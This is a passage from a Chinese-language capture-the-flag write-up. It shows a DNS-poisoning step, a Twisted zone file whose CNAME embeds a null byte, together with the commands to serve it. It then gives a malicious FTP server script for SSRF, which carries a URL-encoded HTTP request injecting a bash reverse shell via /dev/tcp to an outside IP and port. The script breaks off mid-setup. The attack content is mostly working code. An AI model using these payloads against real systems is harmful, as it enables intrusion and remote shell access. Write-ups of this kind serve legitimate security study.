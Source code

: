 ```

    NS('a.testsweb.xyz', 'ns.testsweb.xyz'),

    CNAME('ftp.a.testsweb.xyz', 'b4b093f7.ftp.testsweb.xyz\000.a.testsweb.xyz'),
    A('b4b093f7.ftp.testsweb.xyz\000.a.testsweb.xyz', '175.24.70.252'),
]
```

保存为`a.testsweb.xyz`， 然后执行下列命令，关掉systemd-resolved，以权威服务器模式打开`twisted`。

```
sudo service systemd-resolved stop
sudo twistd -n dns --pyzone a.testsweb.xyz
```

在题目中ping ftp.a.testsweb.xyz，即可污染`token.ftp.testsweb.xyz`为任意IP地址。

![image-20220222105717979](images/image-20220222105717979.png)

运行恶意ftp脚本即可实现SSRF：

```
import socket
from urllib.parse import unquote

shell_ip = '8.8.8.8'
shell_port = '7777'

# 对payload进行一次urldecode
payload = unquote("POST%20/shellcheck%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2083%0D%0A%0D%0Ashell%3Dbash%2520-c%2520%2522bash%2520-i%2520%253E%2526%2520/dev/tcp/{}/{}%25200%253E%25261%2522".format(shell_ip, shell_port))
payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 21
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
```